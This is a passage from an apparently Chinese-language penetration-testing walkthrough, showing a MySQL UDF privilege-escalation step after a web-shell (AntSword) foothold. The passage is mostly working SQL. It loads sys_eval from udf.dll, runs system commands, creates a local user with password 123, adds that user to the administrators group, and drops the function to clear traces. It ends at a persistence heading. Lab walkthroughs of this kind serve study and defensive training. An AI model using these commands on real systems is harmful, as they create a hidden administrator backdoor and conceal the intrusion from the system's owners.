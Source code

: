       ![](./images/udf_AntSword.png)



- 执行提权命令

  ```
  #从udf.dll文件中引入自定义函数sys_eval
  create function sys_eval returns string soname 'udf.dll';
  #判断是否成功创建自定义函数
  select * from mysql.func where name = 'sys_eval';
  #运行dir命令验证自定义函数是否正常运行
  select sys_eval('dir');
  #新建密码为123的用户user1
  select sys_eval('net user user1 123 /add');
  #将用户user1添加到administrators组
  select sys_eval('net localgroup administrators user1 /add');
  #清除痕迹
  drop function sys_eval;
  ```





## 第九阶段-权限维持

